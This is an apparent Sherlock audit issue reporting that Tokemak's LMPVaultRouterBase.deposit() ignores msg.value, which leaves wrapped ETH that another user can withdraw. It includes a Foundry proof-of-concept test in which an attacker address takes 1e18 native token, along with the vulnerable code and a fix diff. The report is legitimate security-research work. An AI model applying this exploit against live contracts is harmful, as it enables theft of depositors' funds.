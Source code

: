 # Original link
https://github.com/sherlock-audit/2023-06-tokemak-judging/issues/344
0xbepresent

high

# An attacker can steal `native` token from the `LMPVaultRouterBase` contract due `LMPVaultRouterBase::deposit()` malfunction
## Summary

The `LMPVaultRouterBase::deposit()` function does not manage correctly the `nativeToken` AND `baseToken` deposits causing an attacker the opportunity to steal native token from the LMPVaultRouterBase.

## Vulnerability Detail

The [LMPVaultRouterBase::deposit()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44) helps to deposit to the `LMPVault`. It accepts [native token value](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L51) and the [vault asset](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L54).

The problem is that the user may send both, the native token AND the vault base asset in the same transaction call but the function will deposit to the `LMPVault` only the amount specified in the [amount](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L47) parameter. Therefore, an attacker can steal the amount not used by the `LMPVault`.

The deposit function execution:

- The [_processEthIn()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L51) function will [deposit the `msg.value`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L120) in the `LMPVaultRouterBase` contract.
- The [pullToken()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L54) will [transfer the `vaultAsset`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L54) from the caller to the `LMPVaultRouterBase` contract.
- Then, the [deposited amount to the `LMPVault`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L67) will be the value specified in `amount` parameter. **The error is here because the deposit to the `LMPVault` does not count the `msg.value` amount.**

I created the next test where at the end, an attacker can steal native token amount from the `LMPVaultRouterBase` contract.

1. A depositor calls `deposit()` function sending `1e18 nativeToken` and `1e18 baseAssetToken`.
2. The `lmpVault` increases the `totalAssets` by `1e18` which is incorrect because the totalAssets should be increased by 2e18 because the depositor balance was decreased 1e18 baseAsset and 1e18 nativeToken (2e18).
3. Attacker deposits `1e18` baseAsset and then withdraw their assets. At the end the attacker will have `2e18` native token. The attacker steal `1e18` from the depositor of the step one.


```solidity
// File: LMPVaultRouter.t.sol
// $ forge test --match-test "test_depositEthAndWethError" -vvv
    function test_depositEthAndWethError() public {
        // An attacker can steal value from the LMPVaultRouter.
        // The deposit() function does not manage correctly the nativeToken AND baseToken deposits
        // causing an attacker to steal native token from the LMPVaultRouter.
        //
        // depositAmount = 1e18;
        uint256 minSharesExpected = 1;
        uint256 baseAssetBefore = baseAsset.balanceOf(address(this));
        uint256 nativeTokenBefore = address(this).balance;
        uint256 vaultTotalAssetsBefore = lmpVault.totalAssets();
        baseAsset.approve(address(lmpVaultRouter), depositAmount);
        //
        // User calls deposit() sending 1e18 nativeToken and 1e18 baseAssetToken.
        uint256 sharesReceived = lmpVaultRouter.deposit{value: depositAmount}(
            lmpVault,
            address(this),
            depositAmount,
            minSharesExpected);
        assertGt(sharesReceived, 0);
        //
        // The depositor's baseAsset balance decreased 1e18 amount.
        assertEq(baseAsset.balanceOf(address(this)), baseAssetBefore - depositAmount);
        //
        // Also the depositor's nativeToken balance decreased 1e18 amount.
        assertEq(address(this).balance, nativeTokenBefore - depositAmount);
        //
        // The lmpVault asset is increased by only 1e18 amount which is incorrect
        // because the user balance was decreased the baseAsset and the nativeToken balance.
        assertEq(lmpVault.totalAssets(), vaultTotalAssetsBefore + depositAmount);
        //
        // An attacker can deposit 1e18 then withdraw the unused amount from the first depositor.
        // The attacker will receive his 1e18 weth deposited amount + 1e18 nativeToken.
        address attacker = address(369);
        vm.startPrank(attacker);
        deal(address(baseAsset), attacker, 1e18); // attacker has 1e18
        baseAsset.approve(address(lmpVaultRouter), 1e18);
        lmpVaultRouter.deposit(lmpVault, attacker, 1e18, minSharesExpected); // attacker deposits 1e18
        lmpVault.approve(address(lmpVaultRouter), 1e18);
        lmpVaultRouter.withdraw(lmpVault, attacker, 1e18, 1e18, true);
        //
        // Attacker balance is 2e18 nativeToken. The attacker steal 1e18.
        assertEq(attacker.balance, 2e18);
        vm.stopPrank();
    }
```

## Impact

An attacker can steal unused `weth/native` from the LMPVaultRouterBase contract. Material loss at zero cost by the attacker.

## Code Snippet

The [LMPVaultRouterBase.deposit()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44) function:

```solidity
    function deposit(
        ILMPVault vault,
        address to,
        uint256 amount,
        uint256 minSharesOut
    ) public payable virtual override returns (uint256 sharesOut) {
        // handle possible eth
        _processEthIn(vault);

        IERC20 vaultAsset = IERC20(vault.asset());
        pullToken(vaultAsset, amount, address(this));

        return _deposit(vault, to, amount, minSharesOut);
    }
```

The [LMPVaultRouterBase._processEthIn()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C14-L111C27) function:

```solidity
    function _processEthIn(ILMPVault vault) internal {
        // if any eth sent, wrap it first
        if (msg.value > 0) {
            // if asset is not weth, revert
            if (address(vault.asset()) != address(weth9)) {
                revert InvalidAsset();
            }

            // wrap eth
            weth9.deposit{ value: msg.value }();
        }
    }

```

## Tool used

Manual review

## Recommendation

The [deposit()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L56) function must count the `msg.value` amount. So the deposited amount to the `LMPVault` must be the `baseAssetAmount` + the `msg.value` amount.

```diff
    function deposit(
        ILMPVault vault,
        address to,
        uint256 amount,
        uint256 minSharesOut
    ) public payable virtual override returns (uint256 sharesOut) {
        // handle possible eth
        _processEthIn(vault);

        IERC20 vaultAsset = IERC20(vault.asset());
        pullToken(vaultAsset, amount, address(this));

--      return _deposit(vault, to, amount, minSharesOut);
++      return _deposit(vault, to, amount + msg.value, minSharesOut);
    }
```

Duplicate of #1
